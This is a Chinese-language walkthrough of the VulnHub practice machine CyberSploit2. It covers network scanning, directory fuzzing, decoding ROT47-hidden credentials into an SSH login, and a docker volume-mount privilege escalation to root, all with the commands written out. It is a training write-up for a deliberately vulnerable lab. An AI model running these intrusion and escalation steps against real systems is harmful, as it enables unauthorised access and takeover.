# vulnhub系列——CyberSploit2

# 一、信息收集

1. 主机发现

   ``` shell
   sudo arp-scan -l
   ```

   

2. 端口扫描

   ``` shell
   nmap -Pn -sV -sC 192.168.50.58
   ```

   

3. 发现开放80端口，有web服务，访问一下

   

4. 发现第四行的用户名和密码有点奇怪，先继续扫描一下目录

   ``` shell
   dirsearch -u http://192.168.50.58 -e *
   ```

   

5. 没有扫出什么有用的东西，识别一下web指纹

   ``` shell
   whatweb 192.168.50.58
   ```

   

6. fuzz一下，看有没有隐藏的目录和文件

   ``` shell
   wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hc 403,404 http://192.168.50.58/\~FUZZ
   wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 403,404 http://192.168.50.58/.FUZZ
   ```

7. fuzz无果，没有隐藏目录和文件，F12查看源码

   

8. 发现可疑的东西，查了下R0T47是一种编码方式，联想到上面发现的web页面第四行的奇怪的用户名和密码，尝试解码，解码网站：https://www.jisuan.mobi/puu3uummu313myXP.html

   ``` shell
   D92:=6?5C2 ——> shailendra
   
   4J36CDA=@:E` ——> cybersploit1
   ```

   

   

# 二、getshell

1. 由于没有发现web后台登录地址，那么解码出来的用户名和密码可能就是ssh的用户名和密码了，尝试ssh连接

   

2. 连接ssh成功，查看一下权限

   

3. 当前用户shailendra权限太低，需要提权，当前用户目录下有一个hint.txt文件，cat一下，内容为docker，提示用docker提权

   ``` shell
   docker pull alpine
   docker run -v /:/mnt -it alpine
   ```

4. 提权成功

   